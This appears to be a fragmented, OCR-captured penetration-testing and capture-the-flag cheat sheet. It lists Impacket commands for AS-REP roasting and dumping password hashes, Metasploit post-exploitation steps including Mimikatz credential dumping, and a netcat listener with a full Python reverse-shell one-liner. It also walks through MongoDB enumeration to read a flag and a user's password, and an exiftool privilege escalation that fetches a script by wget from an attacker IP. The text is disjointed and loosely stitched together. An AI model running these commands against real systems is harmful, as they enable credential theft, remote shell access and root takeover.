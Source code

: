=================================================================================
# Impacket
```

GetNPUsers.py
-------------
When a user account has the privilege "Does not require Pre-Authentication" set, this means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account. (called ASREPRoasting attack, used by GetNPUsers.py, needs valid user list)

GetNPUsers fusion.corp/ -usersfile user.txt -no-pass -dc-ip <IP>

secretsdump.py
--------------
used for extracting password hashes and secrets 

secretsdump.py DOMAIN/username:password@target_ip


```











run post/multi/recon/local_exploit_suggester
typing ‘session <session number>
getprivs
ps
load kiwi
creds_all
•	In my machine type nc -lvnp 8005 to open a shell in port 8005
•	Copy the and edit the IP and Port of the python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'


•	Type mongo to start the mongo DB
•	Type show dbs to see our databases on the target. There are three of them, admin that is empty, local, and sudousersbak that looks interesting to me
•	Type use sudousersbak to go to this database
•	Type show collections to see the collections in the DB. There are three collection in there, the flag, the user, and the system.indexes
•	Type db.flag.find() to see the flag
•	Type db.user.find() to see the what’s in user collection. I found the password of the user stux here



Exiftool
•	Download it by typing wget 10.2.63.225:8008/<filename.sh>. In this case, our script name is exp.sh, and we can see it after running the ls command. 
•	Then we give the file full permission by typing chmod 777 exp.sh to be executable by everyone.
•	Run the script followed by your desired command, for example bash ./exp.sh ‘sudo su’
•	Now, the script, created another file for us called delicate.jpg that if we run it as the root with the exiftool, we would get the root privilege
•	sudo -u root /usr/local/bin/exiftool delicate.jpg.
import os
try:
os.system(“/bin/bash”)
except:
	pass
